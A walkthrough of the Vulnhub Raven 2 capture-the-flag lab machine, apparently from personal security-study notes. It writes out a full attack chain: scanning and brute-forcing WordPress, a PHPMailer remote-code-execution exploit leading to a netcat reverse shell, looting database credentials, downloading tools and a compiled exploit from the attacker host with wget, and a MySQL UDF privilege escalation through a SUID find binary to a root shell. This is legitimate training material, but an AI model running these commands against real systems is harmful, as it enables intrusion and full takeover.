








# Walkthrough: Raven 2, a vulnhub machine

## About the machine

| data |  |
|--------| ------- |
| Machine | Raven 2 |
| Platform | Vulnhub |
| url | [link](https://www.vulnhub.com/entry/raven-2,269/) | 
| Download | [https://drive.google.com/open?id=1fXp4JS8ANOeClnK63LwgKXl56BqFJ23z](https://drive.google.com/open?id=1fXp4JS8ANOeClnK63LwgKXl56BqFJ23z)  |
| Download Mirror | [https://download.vulnhub.com/raven/Raven2.ova](https://download.vulnhub.com/raven/Raven2.ova) |
| Size | 765 MB |
| Author | [William McCann](https://www.vulnhub.com/author/william-mccann,596/) |
| Release date | 9 November 2018 |
| Description | Raven 2 is an intermediate level boot2root VM. There are four flags to capture. After multiple breaches, Raven Security has taken extra steps to harden their web server to prevent hackers from getting in. Can you still breach Raven? |
| Difficulty | Intermediate |
| OS | Linux |


## Walkthrough

### Setting up the machines

I'll be using Virtual Box.

Kali machine (from now on: attacker machine) will have two network interfaces: 

- eth0 interface: NAT mode (for internet connection).
- eth1 interface: Host-only mode (for attacking the victim machine).

Raven 1 machine (from now on: victim machine) will have only one network interface:

- eth0 interface.

After running 

```bash
ip a
```
we know that the attacker's machine IP address is 192.168.56.102/24. 


### Reconnaissance

#### Identify victim's IP

To discover the victim's machine IP, we run:

```bash
sudo netdiscover -i eth1 -r 192.168.56.102/24
```

These are the  results:


Usually, victim's IP is the last one listed, in this case 192.168.56.104, BUT as this lab was performed in several days, victim's machine IP will switch eventually to 192.168.56.105. 


#### Scan victim's surface attack

Now we can run a scanner to see which services are running on the victim's machine:

```bash
sudo nmap -p- -A 192.168.56.104
```

And the results:


Having a web server in port 80, it's inevitable to open a browser and have a look at it. Also, at the same time, we can run a simple enumeration scan with [dirb](dirb.md):

```bash
dirb http://192.168.56.104
```
By default, dirb is using /usr/share/dirb/wordlists/common.txt. The results are pretty straightforward:



There are two folders quite appealing: 

+ A wordpress installation running on the server. 
+ A vendor installation with a service such as PHPMailer installed.


#### Deeper scan with specific tool for wordpress service: wpscan 

First, let's start by running a much deeper scanner with [wpscan](wpscan.md). We'll be enumerating users, 


```bash
wpscan --url http://192.168.56.104/wordpress --enumerate u --force --wp-content-dir wp-content
```

And the results show us some interesting findings:





**Main findings**:

+ XML-RPC seems to be enabled: http://192.168.56.104/wordpress/xmlrpc.php. What does this service do? It allows authentication to post entries. It's also useful in wordpress for retrieving pings when a post is linked back. This means that it's also an open door for exploitation. We'll return to this lateri.
+ WordPress readme found: http://raven.local/wordpress/readme.html
+ Upload directory has listing enabled: http://raven.local/wordpress/wp-content/uploads/.
+ WordPress version 4.8.7.
+ WordPress theme in use: twentyseventeen.
+ Enumerating Users: michael, steven.


Opening the browser in http://192.168.56.104/wordpress/readme.html, we can see some instructions to set up the wordpress installation. As a matter of fact, by clicking on http://192.168.56.105/wp-admin/install.php, we end up on a webpage with the source code pointing to raven.local. We need to include a redirection in our /etc/hosts file. (This is better explained in [the vulnhub raven 1 machine](vulnhub-raven-1.md).  

```bash
sudo nano /etc/hosts
```

At the  end of the file we add the following line:

```bash
192.168.56.104	local.raven
# CTRL-s  and CTRL-x
```

There was another open folder: http://raven.local/wordpress/wp-content/uploads/. Using the browser we can get to 





And now we have flag3:


Let's see now the user enumeration. Yoy can go to [the walkthrough of the Vulnhub Raven 1 machine to see how to manually brute force users in a wordpress installation](vulnhub-raven-1.md).  


### Exploiting findings


#### Bruce-forcing passwords for the CMS

Having found anything, after testing input validations in the endpoints of the application, 

I'm going to try to brute force login with steven, who is the user with id=2.

```bash
wpscan --url http://192.168.56.105/wordpress --passwords /usr/share/wordlists/rockyou.txt  --usernames steven -t 25
```

And also with michael:


```bash
wpscan --url http://192.168.56.105/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames michael -t 25
```

No valid password is found.


#### Browse listable folders that are supposed to be close


Besides the wordpress installation, our dirb scan gave us another interesting folder: http://192.168.56.105/vendor. Browsing around you can find the service PHPMailer installed.



Two insteresting findings regarding the PHPMailer service:
	


One is the file PATH, with the the path to the service and other of the flags:


In plain text:

```
/var/www/html/vendor/
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
```

The second is the file VERSION, that reveals that the PHPMailer service has version 5.2.16, which is potentially vulnerable,.


#### Exploiting the service PHPMailer 5.2.16 

After googling "phpmailer 5.2.16 exploit", we have these results:

+ [https://www.exploit-db.com/exploits/40974](https://www.exploit-db.com/exploits/40974).


**What is this vulnerability about?** Quoting [Legalhackers](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html):

> An independent research uncovered a critical vulnerability in PHPMailer that could potentially be used by (unauthenticated) remote attackers to achieve remote arbitrary code execution in the context of the web server user and remotely compromise the target web application.
> To exploit the vulnerability an attacker could target common website components such as contact/feedback forms, registration forms, password email resets and others that send out emails with the help of a vulnerable version of the PHPMailer class.

When it comes to Raven 2 machine, we realize that we're using a contact form from: 




We can use the exploit from https://www.exploit-db.com/exploits/40974. 

Originally, this exploit is (highlighted the fields we're going to change):


And this is the anarconder.py saved with execution permissions in our attacker machine (hightlighted my changes to the original script):


We launch the script:

```bash
python3 anarconder.py
```

And open in listening mode port 4444  with netcat:

```bash
nc -lnvc 4444
```

Now, I will open in the browser http://192.168.56.105/zhell.php to get the reverse shell in my netcat conection.




And we can browse to /var/www and get flag2.txt


flag2.txt in plain text:

```bash
flag2{6a8ed560f0b5358ecf844108048eb337}
```

Also, a nice-thing-to-do on every wordpress installation is checking out for credentials in the config file (if existing). So by browsing to /var/www/html/wordpress, we can see:



And reading the file, we can see some credentials:

```bash
cat wp-config.php
```


So now we also have these credentials:

+ user: root
+ password: R@v3nSecurity

We can try to access ssh service running on port 22 with those credentials, without success. We can also try to escalate from the open shell, but we get the message that "su root must be run from terminal".


### Escalation of privileges

First, let's see who we are (id), to which groups we belong (id), the version of the running server (uname -a),  and which commands we are allowed to run (sudo -l). 


Also there are some nice tools that we could run in the victim machine if we have python installed. Let's make a comprobation:

```bash
which python
```
Result:

```
/usr/bin/python
```

Nice, let's proceed: There is a cool enumeration tool for linux called [Linux Privilege Cheker](linux-privilege-checker.md), that we can download from the referenced github repo and serve it from our attacker machine:

```bash
cp linuxprivchecker.py /var/www/html
cd /var/www/html
service apache2 start
```

And then, from the victim machine:

```bash
cd /tmp
wget http://192.168.56.102/linuxprivchecker.py
```

Now we can run it and see the results:

```bash
python /tmp/linuxprivchecker.py
```

Once you run it, you will get this enumeration of escalation exploits. Since potentially we have some root credentials for a service, we will try with the MYSQL vulnerability 4.X/5.0. 



After reviewing the exploit [http://www.exploit-db.com/exploits/1518](http://www.exploit-db.com/exploits/1518), we copy-paste the exploit and save it as 1518.c in our apache server:

```bash
cd /var/www/html/
vi 1518.c
# and we copy paste the exploit
```  

Compiling this C code in the victim attack gives us error.

 

Then, we are going to compile in the attacker machine.

```bash
# To creates 1518.o from 1518.c
sudo gcc -g -c 1518.c

# To create 1518.so from both 1518.c and 1518.o
sudo gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc 
```

The file we are going to retrieve from the victim machine is 1518.so. So from /tmp in the victim machine:

```bash
cd /tmp
wget http://192.168.56.102/1518.so
```

Now in the victim machine, we login into MSQL service:

```bash
mysql -u root -p

# when asked about password, we enter R@v3nSecurity
```

We're in! Let's do some digging:

```mysql
# List databases
SHOW databases;

# Select a database
use mysql;
```

Exploiting the vulnerability: we'll create a table in the database, with a column, and we will assing a value to that column that it's going to be our payload file with the extension .so.

```mysql
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
```

So far:


Now, we are going to load that file from the column to a different location, let's say /usr/lib/mysql/plugin/1518.so:

```mysql
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';

# We will execute
create function do_system returns integer soname '1518.so';
```


If we now execute: 

```mysql
select do_system('chmod u+s /usr/bin/find');
exit

```


Now, if we check suid binaries, we can see "find" among them.


Now, if we create a file, such as "tocado" in the /tmp folder of the victim machine and we execute 'find file -exec code', every time that the command finds the file it will execute the following code as root.

Then, we can run:

```bash
touch tocado
find tocado -exec "whoami" \;
find tocado -exec "/bin/sh" \;
whoami
```


#### Getting the flag

We just need to go to the root folder:

```bash
cd /root
ls -la
cat flag4.txt
```


flag4.txt in plain text:

```

  ___                   ___ ___ 
 | _ \__ ___ _____ _ _ |_ _|_ _|
 |   / _` \ V / -_) ' \ | | | | 
 |_|_\__,_|\_/\___|_||_|___|___|
                           
flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting RavenII

I hope you enjoyed this second interation of the Raven VM

Hit me up on Twitter and let me know what you thought: 
```


#### Commands used to exploit the machine

```
ip a
sudo netdiscover -i eth1 -r 192.168.56.102/24
sudo nmap -p- -A 192.168.56.105
dirb http://192.168.56.105
wpscan --url http://192.168.56.105/wordpress --enumerate u --force --wp-content-dir wp-content
python3 anarconder.py
nc -lnvc 4444

cat wp-config.php
cd /tmp
wget http://192.168.56.102/linuxprivchecker.py
python /tmp/linuxprivchecker.py


cd /var/www/html/
vi 1518.c
# and we copy paste the exploit

# To creates 1518.o from 1518.c
sudo gcc -g -c 1518.c

# To create 1518.so from both 1518.c and 1518.o
sudo gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc 

mysql -u root -p

# List databases
SHOW databases;

# Select a database
use mysql;

create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';

# We will execute
create function do_system returns integer soname '1518.so';

select do_system('chmod u+s /usr/bin/find');
exit

touch tocado
find tocado -exec "whoami" \;
find tocado -exec "/bin/sh" \;
whoami
```


#### Tools

+ [dirb](dirb.md).
+ [netdiscover](netdiscover.md).
+ [nmap](nmap.md).
+ [wpscan](wpscan.md).
+ [mysql](mysql.md)

